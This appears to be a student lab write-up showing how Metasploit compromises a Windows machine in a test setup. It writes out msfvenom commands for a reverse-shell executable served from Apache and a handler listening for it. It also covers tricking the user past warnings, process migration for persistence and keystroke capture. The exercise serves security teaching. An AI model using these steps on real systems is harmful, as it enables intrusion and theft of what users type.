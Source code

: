 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![Screenshot 2024-04-16 143132](https://github.com/Vinothini1711/Echoserver/assets/144300204/a807691c-37df-4ded-9242-4062b6d5be95)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-04-16 143439](https://github.com/Vinothini1711/Echoserver/assets/144300204/e1de975c-93ad-4167-a7c6-921eae9a9801)
copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-16 143448](https://github.com/Vinothini1711/Echoserver/assets/144300204/eaf50b1f-801f-4515-afb5-6727f11a58a7)

Start apache server
sudo systemctl apache2 start

![Screenshot 2024-04-16 143511](https://github.com/Vinothini1711/Echoserver/assets/144300204/ab7fe513-a6a8-4e23-b8e5-1665195b344c)

Check the status of apache2

![Screenshot 2024-04-16 143554](https://github.com/Vinothini1711/Echoserver/assets/144300204/9857a3f9-147d-41a7-a1c3-32274f494a18)

Invoke msfconsole:

![Screenshot 2024-04-16 143610](https://github.com/Vinothini1711/Echoserver/assets/144300204/cbf109d5-bb84-4d84-af83-893a0c7ddad8)
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
![Screenshot 2024-04-16 143844](https://github.com/Vinothini1711/Echoserver/assets/144300204/7defa3b3-ad2f-4ed8-b026-862a5b0a8325)
exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2024-04-27 165657](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/7713228b-8b81-4617-8220-2e8e70656941)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2024-04-27 165646](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/eb77c75b-4ab0-4d9f-951a-77d47620cf28)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

![Screenshot 2024-04-27 165637](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/f8c81137-6147-4750-b24c-5d8b1fd0d8b4)

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-04-27 165618](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/fd97b96a-0ad7-4410-baf6-3fbc90790668)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-04-27 165630](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/09a0627b-9c03-48f2-bdeb-667bd44c3be0)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
